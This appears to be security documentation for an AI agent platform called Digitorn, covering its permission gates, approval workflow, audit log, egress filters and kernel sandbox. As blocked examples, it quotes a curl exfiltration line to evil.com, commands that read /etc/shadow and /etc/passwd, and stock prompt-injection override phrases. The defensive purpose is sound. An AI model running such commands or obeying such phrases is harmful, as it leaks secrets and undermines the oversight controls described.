# Security Architecture

Digitorn provides enterprise-grade security for AI agent applications. Every action
an agent attempts passes through multiple enforcement layers before execution.
Nothing executes without explicit authorization.

> **Tenant isolation**: apps are installed under a `(app_id, scope, owner_user_id)` tuple. A user's private install cannot be touched by anyone else, and only admins (perm `*`) can delete or disable the system install. See [Multi-Tenant Installs](45-multi-tenant.md) for the full contract.

## Design Principles

The security system follows four principles:

1. **Deny by default** -- actions without explicit policy require approval, MCP servers without sandbox declaration are blocked, filesystem without paths declaration is confined
2. **Least privilege** -- agents see only what they need, OS grants only declared permissions
3. **Defense in depth** -- 3 independent enforcement layers (7 software gates + module controls + 6 OS kernel layers), each can independently block
4. **Full auditability** -- every decision is logged with context, seccomp-notify intercepts syscalls in real-time

## Architecture Overview

Digitorn security operates at **three independent levels**. Even if one level is completely compromised, the others still hold.

### Layer 1: Security Gate (7 gates)

Application-level enforcement. Each gate can independently block an action.



### Layer 2: Module Controls

Per-module deny-by-default enforcement. Each module enforces its own rules independently.



### Layer 3: OS Kernel Enforcement

Applied once at worker startup. Irreversible. Cannot be bypassed even by a complete Python exploit.



Layer 3 is the **last line of defense**. Even if layers 1 and 2 are completely compromised (Python RCE), the Linux kernel still enforces Landlock, seccomp, and namespace restrictions.

## YAML Configuration

All security is declared in the `capabilities:` block:

```yaml
capabilities:
  # Default policy for actions not explicitly mentioned
  default_policy: approve     # auto | approve | block

  # Maximum risk level the app can handle without explicit grants
  max_risk_level: medium      # low | medium | high

  # Actions the agent can execute freely
  grant:
    - module: filesystem
      actions: [read, ls, find, grep, edit, write]
    - module: git
      actions: [status, diff, log, add, commit]
    - module: shell
      actions: [run, bash, which]

  # Actions that require user confirmation before execution
  approve:
    - module: filesystem
      actions: [rm]
    - module: git
      actions: [push, reset, merge]
    - module: shell
      actions: [task_kill]

  # Actions that are permanently blocked
  deny:
    - module: database
      actions: [execute_query, batch_execute]
      reason: "Read-only mode"

  # Modules invisible to the agent (still usable by system)
  hidden_modules: [llm_provider, index]

  # Specific actions hidden from tool index
  hidden_actions:
    - module: database
      actions: [set_policy]
```
## Auto-Granted Meta-Tools

When a security profile exists (i.e., a `capabilities:` block is present in the YAML), the
`context_builder` module is automatically granted with `default_action_policy: auto`. This
ensures agents can always discover and execute tools via the 5 meta-tools (`search_tools`,
`get_tool`, `execute_tool`, `list_categories`, `browse_category`), even when the app sets
`default_policy: block`. Without this, the agent would be unable to find or call any tools.

This grant is injected by the compiler and cannot be overridden by `deny:` rules. The
meta-tools themselves enforce the security gate on the underlying tool being executed --
so `execute_tool("filesystem.rm", ...)` still triggers Gate 4 and the approval workflow
if `filesystem.rm` is in the `approve:` list.

## The Seven Security Gates

### Gate 0: App Active

If the application is marked inactive (via API or admin), all actions are denied.
This allows instant kill-switch capability without redeployment.

```python
if not profile.is_active:
    raise PermissionDeniedError  # logged as gate0_inactive
```

### Gate 1: Module Visibility

The agent can only use modules that are visible in its security profile.
Hidden modules are completely invisible -- the agent cannot discover them
via `search_tools`, `list_categories`, or `browse_category`.

```yaml
# These modules exist but the agent cannot see them
hidden_modules: [llm_provider, index]
```
```mermaid
flowchart LR
    subgraph Visible
        A[filesystem]
        B[git]
        C[shell]
    end
    subgraph Hidden
        D[llm_provider]
        E[index]
    end
    Agent -->|can see| Visible
    Agent -.-x|invisible| Hidden

    style Hidden fill:#1e293b,stroke:#475569
```

### Gate 2: Risk Level Cap

Every action has a risk level declared in its `@action` decorator:

| Risk | Examples | Description |
|------|----------|-------------|
| `low` | read, ls, grep, status, search | Read-only, no side effects |
| `medium` | write, edit, commit, post | Modifies state but recoverable |
| `high` | rm, push, reset, execute_query | Destructive or affects shared state |

The `max_risk_level` in capabilities sets the ceiling. Actions above this level
are denied unless they have an explicit `grant` or `approve` override.

```yaml
max_risk_level: medium

grant:
  - module: shell
    actions: [run]    # run is high-risk, but this explicit grant overrides the cap
```
### Gate 3: Symbolic Permissions

Actions can declare required permissions in their `@action` decorator:

```python
@action(
    description="Edit a file",
    permissions=["fs.read", "fs.write"],  # required
    risk_level="medium",
)
```

The security gate checks these against `granted_permissions`. However,
**explicit grants override symbolic permissions**. If `filesystem:edit`
is in the grant list, the symbolic `fs.read` and `fs.write` checks are skipped.

This prevents the common scenario where a developer explicitly grants an action
but it fails because of a symbolic permission mismatch.

### Gate 4: Action Policy Resolution

The final policy for each action is resolved through a priority chain:



Priority order (first match wins):
1. **Explicit action override** -- `grant:`, `approve:`, or `deny:` in YAML
2. **Risk-based rule** -- per-risk-level policy mapping
3. **Module default** -- `default_action_policy` on the module grant
4. **App default** -- `default_policy` in capabilities

The golden rule: **deny always wins**. Even if an action is in both `grant` and
`deny`, the deny takes effect.

### Gate 5: Data Classification

Actions can declare a data classification level:

```python
@action(
    description="Read sensitive config",
    data_classification="confidential",
)
```

Classification levels, from least to most sensitive:

| Level | Description | Examples |
|-------|-------------|----------|
| `public` | No sensitivity | help text, tool lists |
| `internal` | Internal use | source code, configs |
| `confidential` | Business sensitive | customer data, credentials |
| `restricted` | Highest sensitivity | encryption keys, PII |

Configure the maximum allowed level:

```yaml
capabilities:
  max_data_classification: internal  # blocks confidential and restricted
```
### Gate 6: Per-Action Rate Limiting

Prevent abuse by limiting how often specific actions can be called:

```yaml
capabilities:
  rate_limits:
    "shell.run": 30        # max 30 calls per minute
    "filesystem.write": 60 # max 60 writes per minute
    "*": 120               # default for all actions
```
The rate limiter uses a sliding window (60-second window). When the limit
is reached, the action is denied with a message telling the agent how long
to wait before retrying.

## Approval Workflow

When an action has the `approve` policy, execution is paused and the user
is prompted for confirmation.



### Approval in CLI Mode

In standalone mode (`digitorn run --standalone`), the CLI prompts the user
directly in the terminal with a Rich prompt.

### Approval in Daemon Mode

In daemon mode, the approval request is emitted as an Socket.IO event:

```json
{
  "event": "approval_request",
  "data": {
    "request_id": "apr_abc123",
    "tool_name": "filesystem.rm",
    "tool_params": {"path": "./data/old-reports"},
    "risk_level": "high",
    "description": "Delete a file or directory permanently."
  }
}
```

The client (web app, CLI, extension) resolves it via the API:

```bash
POST /api/apps/{app_id}/approve
{
  "request_id": "apr_abc123",
  "approved": true
}
```

### Approval Timeout

Approvals timeout after 5 minutes by default. If the user does not respond,
the action is automatically denied.

## Temporal Scopes

Grants can be time-limited or session-scoped:

```yaml
capabilities:
  temporal_grants:
    - module: shell
      action: run
      scope: session      # valid only for current session
    - module: git
      action: push
      scope: timed
      duration: 3600      # valid for 1 hour after session start
```
| Scope | Behavior |
|-------|----------|
| `session` | Grant is valid only for the current session. New session = new approval needed. |
| `timed` | Grant expires after the specified duration (seconds). |

Temporal grants are managed by the `TemporalGrantStore` and cleaned up
automatically when they expire.

## Security Audit Log

Every security decision is logged to a persistent audit trail. The audit log
records what was attempted, what decision was made, which gate made the decision,
and why.

### Audit Event Structure

```json
{
  "timestamp": 1710547200.0,
  "app_id": "claude-code",
  "agent_id": "main",
  "session_id": "sess_abc123",
  "module_id": "filesystem",
  "action": "rm",
  "risk_level": "high",
  "params_summary": {"path": "./data/old-reports"},
  "decision": "approval_required",
  "gate": "gate4_policy",
  "reason": "Action requires user approval",
  "policy_resolved": "approve",
  "approved_by": "",
  "approval_duration_ms": 0
}
```

### Decision Types

| Decision | Meaning |
|----------|---------|
| `allowed` | Action passed all gates and executed |
| `denied` | Action was blocked by a security gate |
| `approval_required` | Action is waiting for user confirmation |
| `approved` | User approved the action, it executed |
| `denied_by_user` | User denied the approval request |

### Querying the Audit Log

Via the API:

```bash
# Get recent security events
GET /api/apps/{app_id}/audit?limit=50

# Filter by decision
GET /api/apps/{app_id}/audit?decision=denied&limit=20

# Filter by module
GET /api/apps/{app_id}/audit?module_id=shell

# Get statistics
GET /api/apps/{app_id}/audit/stats
```

### Parameter Sanitization

Audit log entries never contain sensitive data. Parameters are automatically
sanitized before logging:

- Keys containing `password`, `secret`, `token`, `api_key`, `credential`,
  `auth`, `private_key`, `access_key` are replaced with `***REDACTED***`
- Strings longer than 200 characters are truncated
- Large collections are summarized as `<list len=100>`
- Internal keys (starting with `_`) are excluded

## Complete YAML Reference

```yaml
capabilities:
  # Default policy for unlisted actions
  default_policy: approve           # auto | approve | block

  # Risk ceiling (actions above this need explicit grant/approve)
  max_risk_level: medium            # low | medium | high

  # Data sensitivity ceiling
  max_data_classification: internal # public | internal | confidential | restricted

  # Per-action rate limits (calls per minute)
  rate_limits:
    "shell.run": 30
    "filesystem.write": 60
    "*": 120                        # default for all

  # Free-pass actions (execute without confirmation)
  grant:
    - module: filesystem
      actions: [read, ls, find, grep, edit, write, insert, mkdir]
    - module: git
      actions: [status, diff, log, blame, show, add, commit]
    - module: shell
      actions: [run, bash, which, env]

  # Actions requiring user confirmation
  approve:
    - module: filesystem
      actions: [rm]
    - module: git
      actions: [push, reset, merge]
    - module: shell
      actions: [task_kill]

  # Permanently blocked actions
  deny:
    - module: database
      actions: [execute_query, batch_execute, set_policy]
      reason: "Read-only access only"

  # Invisible modules (system use only)
  hidden_modules: [llm_provider, index]

  # Invisible actions (still executable by system)
  hidden_actions:
    - module: database
      actions: [set_policy]

  # Time-limited grants
  temporal_grants:
    - module: git
      action: push
      scope: timed
      duration: 3600
```
## Module-Level Security

Beyond the security gate, individual modules enforce their own security controls.
All are configurable via YAML and enabled by default.

### Filesystem: Path Sandboxing (Deny-by-Default)

The filesystem module uses a **deny-by-default** model. Every file operation
(read, write, edit, grep, find, ls, rm, undo, diff_checkpoint) is checked
against a path allowlist before execution.

**Resolution order:**

1. If `unrestricted: true` is set → all paths allowed (explicit opt-in)
2. If `paths` constraint is set → only those directories allowed
3. If neither is set but a workspace exists → confined to workspace
4. If none of the above → **all filesystem access denied** (safe fallback)

```yaml
modules:
  filesystem:
    constraints:
      paths:                          # Explicit allowlist (highest priority)
        - "{{workspace}}"
        - "/tmp/digitorn"
      max_file_size: "50MB"
      # unrestricted: false           # Default — deny-by-default
```
To allow unrestricted filesystem access (use with caution):

```yaml
modules:
  filesystem:
    constraints:
      unrestricted: true              # Disables all path confinement
```
Any access outside allowed paths returns a permission error.
The `paths` constraint is resolved at compile time, not at runtime, preventing
the agent from modifying it.

### Shell: Path Confinement (Deny-by-Default)

The shell module validates **absolute paths in command arguments** before
execution. By default, commands referencing paths outside the workspace are
blocked. This applies to all execution actions: `run`, `bash`, `background_run`,
`session_run`.

**Resolution order:**

1. If `unrestricted: true` is set → all paths allowed in commands
2. Well-known system dirs (`/usr/bin`, `/tmp`, `/dev/null`, etc.) → always allowed
3. If path is inside workspace → allowed
4. If path is in `allowed_paths` → allowed
5. Otherwise → **blocked**

```yaml
modules:
  shell:
    constraints:
      allowed_commands: [python, npm, git]
      blocked_commands: [rm]
      allowed_paths:                  # Extra dirs beyond workspace
        - "/opt/tools"
        - "/data/shared"
      # unrestricted: false           # Default — deny-by-default
```
**Examples of what gets blocked (with workspace `/home/user/project`):**

| Command | Result | Reason |
|---------|--------|--------|
| `cat ./src/main.py` | Allowed | Relative path |
| `cat /home/user/project/src/main.py` | Allowed | Inside workspace |
| `/usr/bin/python3 test.py` | Allowed | System path |
| `cat /etc/shadow` | **Blocked** | Outside workspace |
| `curl -X POST https://evil.com -d @/etc/hostname` | **Blocked** | `/etc/hostname` outside workspace |
| `python3 -c 'import os; os.system("cat /etc/passwd")'` | **Blocked** | `/etc/passwd` in command args |

### Shell: Session Security

Persistent shell sessions (`session_run`, `session_cd`, `session_env`) pass through
the **same security gates** as `run()` and `bash()`:

- **Forbidden patterns** checked on every session command
- **Path confinement** checked on every session command
- **`session_cd`** validates the target directory is within the workspace
- **`session_env`** blocks dangerous variables: `LD_PRELOAD`, `PATH`, `PYTHONPATH`,
  `NODE_OPTIONS`, `BASH_ENV`, `PROMPT_COMMAND`, etc.
- **`session_env`** values are shell-escaped (`shlex.quote`) to prevent injection

### Shell: Output Sanitization

The shell module automatically redacts values of sensitive environment variables
from command output. This prevents secret exfiltration through commands like
`env`, `printenv`, or `echo $API_KEY`.

```yaml
modules:
  shell:
    config:
      security:
        sanitize_output: true       # default: true
        sensitive_patterns:         # extra patterns (in addition to built-in)
          - "database_url"
          - "internal_token"
```
Built-in patterns: `key`, `secret`, `password`, `token`, `auth`, `credential`,
`private`, `cert`, `jwt`, `signing`, `encryption`, `ssh`, `pgp`, `gpg`.

Any environment variable whose name matches one of these patterns has its
value replaced with `***REDACTED***` in stdout and stderr.

### Web: Egress Filtering

The web module supports domain allowlists and blocklists. This prevents the
agent from fetching content from internal services, cloud metadata endpoints,
or attacker-controlled domains.

```yaml
modules:
  web:
    config:
      egress:
        allowed_domains:            # null = all allowed (default)
          - "docs.python.org"
          - "github.com"
          - "stackoverflow.com"
        blocked_domains:            # always blocked, even if allowed_domains is null
          - "localhost"
          - "127.0.0.1"
          - "169.254.169.254"       # AWS/GCP metadata endpoint
          - "metadata.google.internal"
```
When `allowed_domains` is set, only those domains can be fetched.
`blocked_domains` applies regardless of the allowlist.

### Web: Prompt Injection Detection

Fetched web content is scanned for common prompt injection patterns.
When detected, the result includes a `security_warning` field and a log
entry is emitted. The agent still receives the content, but the warning
signals that the data may be adversarial.

```yaml
modules:
  web:
    config:
      security:
        detect_injection: true      # default: true
        injection_patterns:         # extra patterns (in addition to built-in)
          - "you are a helpful assistant"
```
Built-in detection patterns include: `ignore previous instructions`,
`disregard your instructions`, `you are now`, `system prompt:`,
`forget everything`, and common LLM prompt delimiters.

### HTTP: Egress Protection

The HTTP module blocks outbound write requests (POST, PUT, PATCH, DELETE) to external
hosts by default. Only GET, HEAD, and OPTIONS are allowed to external hosts without
explicit authorization. This prevents data exfiltration via HTTP.

To allow write requests to specific hosts, declare them in the YAML:

```yaml
modules:
  http:
    constraints:
      allowed_hosts:
        - "api.github.com"
        - "httpbin.org"
        - "hooks.slack.com"
```
When `allowed_hosts` is set, all HTTP methods are allowed to those hosts.
Requests to `localhost` and `127.0.0.1` are always allowed regardless of the list.



### Database: Host Restriction

Database connections to remote hosts are blocked by default. Only `localhost`,
`127.0.0.1`, and `::1` are allowed. SQLite connections to `:memory:` and local
files are always allowed.

To connect to a remote database server, declare the host explicitly:

```yaml
modules:
  database:
    constraints:
      allowed_hosts:
        - "db.company.com"
        - "analytics.internal"
```


### HTTP: Egress Policy with Security Profiles

The HTTP module enforces write-method restrictions independently of the security gate.
The behavior changes depending on whether a security profile is active:

- **With security profile** (capabilities: block present): POST, PUT, PATCH, and DELETE
  to external hosts require `modules.http.constraints.allowed_hosts` to be configured.
  Requests to unlisted hosts are blocked.
- **Without security profile** (no capabilities: block, i.e., dev mode): POST is allowed
  to all hosts. This keeps the development experience frictionless.
- **Always allowed**: `localhost`, `127.0.0.1`, and `::1` are always permitted regardless
  of security profile or allowed_hosts configuration.
- **Wildcards supported**: The `allowed_hosts` list supports wildcard patterns, e.g.,
  `["*.github.com", "api.example.com"]`.

```yaml
modules:
  http:
    constraints:
      allowed_hosts:
        - "*.github.com"
        - "api.example.com"
        - "hooks.slack.com"
```
### MCP: Tool Risk Auto-Inference

MCP tools are automatically classified by name pattern when no explicit risk level is
declared. This classification affects Gate 2 (Risk Level) enforcement and the tool
descriptions shown in the discovery index.

| Risk Level | Name Patterns |
|------------|---------------|
| **high** | delete, remove, send, drop, destroy, charge, publish, force, purge |
| **low** | get, list, search, read, fetch, describe, show, count, browse, view |
| **medium** | Everything else (create, update, modify, etc.) |

The inference runs at tool registration time (during MCP server connection). If an MCP
tool name contains any high-risk keyword, it is classified as high -- even if it also
contains a low-risk keyword (e.g., `force_read` is high). This means that with
`max_risk_level: medium`, tools like `mcp_github.delete_repo` automatically require
an explicit `grant:` or `approve:` override to be callable.

### MCP: Server Trust Model (Deny-by-Default)

MCP servers are external processes — Digitorn enforces **full OS-level control**
over what each server can do. Every MCP server is sandboxed by default, with
**three independent enforcement layers**:

1. **Compile-time** — error if a server has no `sandbox:` block (when capabilities are present)
2. **Application-level** — MCP module rejects tool calls from servers without declared permissions
3. **OS-level** — seccomp/Landlock only grants `allow_exec`, `allow_network`, etc. for servers that declare them

**What Digitorn controls at OS level:**

- **Process execution**: `execve` blocked unless server declares `process.exec`
- **Network access**: `socket`/`connect` blocked unless server declares `net.http`
- **Filesystem**: Landlock restricts to declared paths only
- **Host filtering**: iptables rules limit outbound connections to `allowed_hosts`
- Tool risk classification (auto-inferred from tool name)
- Result normalization (structured output, no raw system data)
- Approval workflows (high-risk MCP tools require human approval)
- Audit logging (all MCP tool calls are logged)
- Credential isolation (each server sees only its own env vars)

```yaml
modules:
  mcp:
    config:
      servers:
        github:
          command: npx @modelcontextprotocol/server-github
          sandbox:
            permissions: [process.exec, net.http]
            allowed_hosts: [api.github.com]
        # ❌ No sandbox: block → compile error + runtime rejection
        untrusted:
          command: npx some-unknown-server
```
See [OS-Level Sandbox — MCP Servers](35-sandbox.md#mcp-servers-deny-by-default) for the full reference.

### Memory: Secret Redaction

The memory module redacts sensitive environment variable values before
storing facts. This prevents secrets from persisting in the memory store
and surviving across sessions.

```yaml
modules:
  memory:
    config:
      security:
        redact_secrets: true        # default: true
        sensitive_patterns:         # extra patterns (in addition to built-in)
          - "internal_key"
```
When an agent calls `add_fact(content="Found API key: sk-abc123...")`,
the value is replaced with `[REDACTED]` before storage.

### Defense in Depth Summary

```mermaid
flowchart LR
    subgraph L1 ["Layer 1: Security Gate"]
        G0[App active]
        G1[Module visible]
        G2[Risk level]
        G3[Permissions]
        G4[Action policy]
        G5[Data class]
        G6[Rate limit]
    end

    subgraph L2 ["Layer 2: Module Controls"]
        M1[Path sandbox]
        M2[Output sanitize]
        M3[Egress filter]
        M4[MCP sandbox]
        M5[Secret redact]
    end

    subgraph L3 ["Layer 3: OS Kernel"]
        K1[Landlock]
        K2[seccomp]
        K3[Namespaces]
        K4[Hardening]
        K5[iptables]
        K6[Audit]
    end

    A[Agent action] --> L1 --> L2 --> L3 --> R[Execute]

    style L1 fill:#1e293b,stroke:#3b82f6,color:#e2e8f0
    style L2 fill:#1e293b,stroke:#22c55e,color:#e2e8f0
    style L3 fill:#1e293b,stroke:#dc2626,color:#e2e8f0
    style R fill:#16a34a,color:#fff
```

Every action passes through three independent enforcement layers:

| Layer | Type | Bypass resistance | What it covers |
|-------|------|-------------------|----------------|
| **Security Gate** | Application logic | Can be bypassed by Python RCE | 7 gates: active, visibility, risk, permissions, policy, classification, rate limit |
| **Module Controls** | Application logic | Can be bypassed by Python RCE | Path sandbox, output sanitize, egress filter, MCP deny-by-default, secret redact |
| **OS Kernel** | Kernel enforcement | **Cannot be bypassed** even by RCE | Landlock, seccomp, namespaces, hardening, iptables, audit |

Layer 3 is applied once at worker startup and is **irreversible**. Even if layers 1 and 2 are completely compromised, the Linux kernel still enforces all restrictions.

## OS-Level Sandbox

Beyond software enforcement, Digitorn applies **kernel-level isolation**
using 6 independent security layers. Even if a bug exists in the Python code,
the operating system itself blocks unauthorized access. No Docker required.

```bash
digitorn start --sandbox
```

### 6 Security Layers (Linux)

| Layer | Mechanism | What it prevents |
|-------|-----------|-----------------|
| 1. **Landlock** | `landlock_restrict_self()` | Filesystem access outside workspace |
| 2. **seccomp-bpf** | BPF filter on syscalls | exec, network, mount, ptrace, reboot |
| 3. **Namespaces** | `unshare(CLONE_NEW*)` | Seeing host processes/network (unprivileged) |
| 4. **Hardening** | `prctl()` | JIT exploits (MDWE), capability abuse, core dumps |
| 5. **cgroups v2** | systemd scopes | CPU/memory/process exhaustion |
| 6. **Audit** | seccomp-notify | Real-time syscall interception |

Each layer is independent. If one is bypassed (kernel too old, feature unavailable), the others still hold.

### YAML-to-Kernel Translation

The sandbox profile is **derived from the app YAML** automatically. No manual configuration needed.

